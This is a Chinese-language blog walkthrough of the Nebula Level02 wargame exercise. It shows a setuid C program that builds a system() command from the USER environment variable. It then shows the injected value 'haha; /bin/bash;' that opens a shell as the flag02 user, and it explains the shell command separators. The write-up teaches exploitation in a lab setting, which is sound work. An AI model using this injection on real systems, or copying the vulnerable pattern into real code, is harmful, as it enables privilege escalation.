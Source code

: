 ```yaml
---
title: "Exploit Exercises - Nebula Level02"
date: 2014-01-09 15:13:38+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


基本过程与level01一样，先看/home/flag02/flag02的源代码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

<!-- more -->

先通过$USER构建了一个字符串，然后执行该字符串。比如正常情况下

	buffer="/bin/echo level02 is cool"

在这里echo程序用了绝对路径，不过那个$USER明显是让我们加以利用的……在本例中echo程序是动不了的了，那怎么能执行其他的命令呢？也很简单，Linux本来就可以在一行中执行多条语句，这里选择用“;”来分割。如下修改$USER

	USER="haha; /bin/bash"

其实这里完全可以使用/bin/getflag的，就直接过掉了，不过每次都这么玩儿没意思，试试开个console吧。修改之后执行：

``` bash
~ $ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash is cool")
haha
/bin/bash: is: No such file or directory
```

擦，bash执行的时候把后边的is cool当成参数了，这也简单，再次祭出“;”把bash跟他们分开

``` bash
USER="haha; /bin/bash;"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash; is cool")
haha
flag02@nebula:~$
```

这样就开了个用户为flag02的bash出来。

### 补充

其实Linux中分隔命令不止“;”这一种方法，总结下这些分隔符的不同如下：

- “;”：顺序执行所有命令，后一个在前一个之行结束之后才会执行
- “&&”：顺序执行，前一个命令成功执行之后才会执行下一个
- “||”：顺序执行，知道成功执行了一个命令为止（如果第一个成功了，后边的就不会执行）

还有种方法也可以起到在一行中分隔多个命令的方法，是使用“&”符号，“&”的本意是在一个新的进程中执行命令，对于分割命令这个目的而言算是一种曲线救国的方法了吧……注意因为“&”本身并不是为分隔命令而用的，所以跟其他的有些许不一样，比如以下两条命令

``` bash
$ la & ll
$ la & ll &
```

第一条会在新的进程中执行la，而在本进程中执行ll，第二条则会新起两个进程分别执行la和ll。